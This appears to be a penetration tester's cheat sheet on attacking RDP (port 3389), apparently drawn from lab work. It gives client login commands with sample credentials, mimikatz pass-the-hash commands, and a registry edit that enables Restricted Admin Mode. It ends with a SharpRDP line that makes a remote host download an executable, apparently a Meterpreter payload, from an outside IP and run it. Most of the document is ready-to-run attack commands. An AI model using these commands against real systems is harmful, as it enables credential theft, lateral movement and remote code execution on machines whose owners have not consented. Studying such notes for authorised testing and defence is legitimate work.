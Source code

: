 # (3389) RDP

### Tools for RDP

<table><thead><tr><th width="163"></th><th width="154">Remmina</th><th>xfreerdp</th><th>rdesktop</th></tr></thead><tbody><tr><td>Command</td><td>remmina</td><td>xfreerdp /u:user /p:password321 /v:10.10.202.204</td><td>rdesktop -u admin -p password123 10.10.202.204</td></tr></tbody></table>

<details>

<summary>Restricted Admin Mode</summary>

* Not enabled by default
* Allows Pass-the-hash RDP login if enabled

Enabled using:

```
mimikatz # sekurlsa::pth /user:admin /domain:corp1 /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:powershell
Enter-PSSession -Computer appsrv01
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
```

Then, login using PtH:

```
mimikatz # privilege::debug
mimikatz # sekurlsa::pth /user:admin /domain:corp1 /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:"mstsc.exe /restrictedadmin"
```

Or using Remmina:

![](../.gitbook/assets/image.png)

Or using xfreerdp:

```
xfreerdp /u:admin /pth:2892D26CDF84D7A70E2EB3B9F05C425E /v:192.168.122.6 /cert-ignore
```

</details>

<details>

<summary>Headless RDP Connection</summary>

* SharpRDP: RDP without GUI

```
sharprdp.exe computername=appsrv01 command="powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/met.exe', 'C:\Windows\Tasks\met.exe'); C:\Windows\Tasks\met.exe" username=corp1\dave password=lab
```

</details>
